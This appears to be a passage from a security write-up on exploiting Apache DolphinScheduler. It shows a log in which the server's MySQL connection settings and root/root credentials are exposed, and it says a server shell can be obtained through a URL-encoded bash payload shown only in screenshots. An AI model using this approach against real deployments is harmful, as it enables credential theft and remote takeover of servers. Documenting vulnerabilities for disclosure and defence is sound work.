 ```log
        driver-class-name: com.mysql.cj.jdbc.Driver

        url: jdbc:mysql://127.0.0.1:3306/dolphinscheduler

        username: root

        password: root

[INFO] 2023-06-15 08:28:24.342 +0000 - FINALIZE_SESSION
```

You can also get the server shell through the bash command, and the payload needs to be url-encoded
![](pic/Pasted%20image%2020230615174532.png)

Get the server shell
![](pic/Pasted%20image%2020230615174600.png)

[LOG-PATH]: /opt/dolphinscheduler/logs/20230615/9905261601664_3-2-8.log, [HOST]:  Host{address='172.18.0.7:1234', ip='172.18.0.7', port=1234}